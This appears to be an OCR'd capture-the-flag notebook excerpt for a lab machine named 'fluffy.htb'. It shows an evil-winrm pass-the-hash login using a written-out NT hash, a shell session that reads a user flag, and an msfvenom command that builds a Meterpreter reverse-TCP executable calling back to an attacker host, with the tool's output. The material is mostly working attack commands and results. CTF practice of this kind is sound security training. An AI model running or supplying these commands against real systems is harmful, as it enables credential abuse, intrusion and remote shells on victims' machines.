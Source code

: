 ```sh
pywhisker/pywhisker   main  evil-winrm -i fluffy.htb -H 33bd09dcd697600edf6b3a7af4875767 -u winrm_svc

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ../Desktop
ls
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> ls


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/26/2025  12:38 AM             34 user.txt


*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
b8012a8f64a141d3a712f9e7699b1bce


```python
source = source[0]
!msfvenom -p windows/meterpreter/reverse_tcp LHOST=$source LPORT=4444 -f exe -o shell.exe
```

    Source locally installed gems is ignoring #<Bundler::StubSpecification name=rbs version=3.4.0 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=racc version=1.7.3 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=debug version=1.9.2 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=rbs version=3.4.0 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=racc version=1.7.3 platform=ruby> because it is missing extensions
    Source locally installed gems is ignoring #<Bundler::StubSpecification name=debug version=1.9.2 platform=ruby> because it is missing extensions
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 354 bytes
    Final size of exe file: 73802 bytes
    Saved as: shell.exe
